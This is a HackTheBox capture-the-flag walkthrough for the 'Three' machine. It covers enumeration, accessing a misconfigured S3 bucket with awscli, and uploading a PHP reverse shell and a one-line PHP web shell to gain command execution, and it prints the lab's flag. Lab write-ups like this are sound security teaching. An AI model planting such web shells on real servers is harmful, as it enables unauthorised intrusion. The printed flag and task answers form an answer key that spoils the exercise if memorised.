






# Three - HackTheBox Writeup

[](https://app.hackthebox.com/machines/Three)
[](#)

> **Challenge Link:** [Three](https://app.hackthebox.com/machines/Three)

---

#### Machine Information

```
Please wait for a few minutes until all machine related services are up and running.
Expect to see {"status":"running"} when visiting s3.thetoppers.htb
```

### Task 1

How many TCP ports are open?

> For this we will do a `nmap` OR `rustscan` scan

I'll go with `rustscan` which is faster than `nmap`

And we got the result with `2 - tcp` open ports

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

### Task 2

What is the domain of the email address provided in the "Contact" section of the website?

We'll visit the site for this question so let's fire up our `firefox` and get to work (_the http port is default **{80}** here so there's no need to specify the port number while entering the IP/domain_)

In the contact section of the page we can see a number and an email address



Thus, the domain of the email address given is:

> `thetoppers.htb`

### Task 3

In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

> This is a very simple question - to resolve hostnames to IP addresses without a DNS server, we can add entries to our local file `/etc/hosts`

Thus our answer here will be `/etc/hosts`.

### Task 4

Which sub-domain is discovered during further enumeration?

> Answer to this question is already given at the challenge info itself which is `s3.thetoppers.htb` but still we'll make use of `gobuster` to get the subdomains in domain `thetoppers.htb`

Result:

```bash
❯ gobuster vhost -u http://thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 80 --append-domain
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://thetoppers.htb
[+] Method:                    GET
[+] Threads:                   80
[+] Wordlist:                  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:                gobuster/3.8.2
[+] Timeout:                   10s
[+] Append Domain:             true
[+] Exclude Hostname Length:   false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
s3.thetoppers.htb Status: 404 [Size: 21]
gc._msdcs.thetoppers.htb Status: 400 [Size: 306]
Progress: 4989 / 4989 (100.00%)
===============================================================
Finished
===============================================================
```

We found two subdomains

```
s3.thetoppers.htb Status: 404 [Size: 21]
gc._msdcs.thetoppers.htb Status: 400 [Size: 306]
```

We'll add them to our `/etc/hosts` to resolve the `dns` with the given IP.



We can see the subdomain we found is showing `{"status":"running"}`

Thus our answer for this question is

> `s3.thetoppers.htb`

### Task 5

Which service is running on the discovered sub-domain?

A quick google search tells us that:

> An **S3 in a subdomain** means mapping a custom subdomain (like `blog.example.com` or `assets.example.com`) to an Amazon S3 bucket so that users can access your cloud-hosted files or static website using your own branded web address.

Thus our answer becomes: `Amazon S3`

### Task 6

Which command line utility can be used to interact with the service running on the discovered sub-domain?

> The command line utility used to interact with an Amazon S3 service is `awscli` (AWS Command Line Interface).

Answer: `awscli`

### Task 7

Which command is used to set up the AWS CLI installation?

> https://docs.aws.amazon.com/cli/v1/reference/configure/index.html



Thus our answer is: `aws configure`

> If you already have `aws` installed then you can start doing the commands

```bash
❯ aws configure

Tip: You can deliver temporary credentials to the AWS CLI using your AWS Console session by running the command 'aws login'.

AWS Access Key ID [None]: temp
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
```

### Task 8

What is the command used by the above utility to list all of the S3 buckets?



> https://docs.aws.amazon.com/cli/latest/userguide/cli-usage-commandstructure.html

Answer: `aws s3 ls`

```bash
❯ aws --endpoint-url http://s3.thetoppers.htb s3 ls
2026-09-16 17:27:00 thetoppers.htb

❯ aws --endpoint-url http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2026-09-16 17:27:00          0 .htaccess
2026-09-16 17:27:00      11952 index.php
```

### Task 9

This server is configured to run files written in what web scripting language?

> From above result of `aws s3 ls` we can see a file named `index.php` which has a `PHP` extension that means the server is configured to run files written in `PHP` scripting.

Answer: `PHP`

### Submit Single Flag

Submit the flag located in `/var/www/`.

For this task, we will need to get RCE (Remote Code Execution) so that we can read the flag inside `/var/www`.

We can do this by copying our reverse shell script file into the `s3` bucket and executing the file either via `curl` or through the browser to get a shell as `www-data`. Let's try...

To upload a file to our `s3` we can use:

```bash
aws s3 cp /path/to/file.txt s3://your-bucket-name/
```

I am using `php-reverse-shell` by `pentestmonkey` you can use any other also.

> Below are the first 5 lines of the script.

```bash
❯ head -5 rev-shell.php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
```

Now let's upload this script

```bash
❯ aws --endpoint-url http://s3.thetoppers.htb s3 cp rev-shell.php s3://thetoppers.htb
upload: ./rev-shell.php to s3://thetoppers.htb/rev-shell.php

❯ aws --endpoint-url http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2026-09-16 17:27:00          0 .htaccess
2026-09-16 17:27:00      11952 index.php
2026-09-16 18:39:24       2586 rev-shell.php
```

We can see the `rev-shell.php` is successfully uploaded.



We've got the shell as `www-data`, and the flag we need is

> ```
> $ cd /var/www
> $ ls
> flag.txt
> html
> $ cat flag.txt
> a980d99281a28d638ac68b9bf9453c2b
> ```

Flag: `a980d99281a28d638ac68b9bf9453c2b`

---

> [!NOTE]
> If you don't want to use `nc` to gain a reverse shell you can just make use of the browser to get the flag, it is also the same process but easier than above, and for that just follow the below steps:

- Create a `shell.php` (or any name you want) and add this line in it:
  ```bash
  <?php system($_GET["cmd"]); ?>
  ```
  above line tells the server to give me a command line to execute commands.
- Upload the file same as we did before, use the `cp` command for s3.
- use `shell.php` with commands now:
  

- Then just use directory traversal to get to the flag and `cat` it:
  

---

Room Solved!!
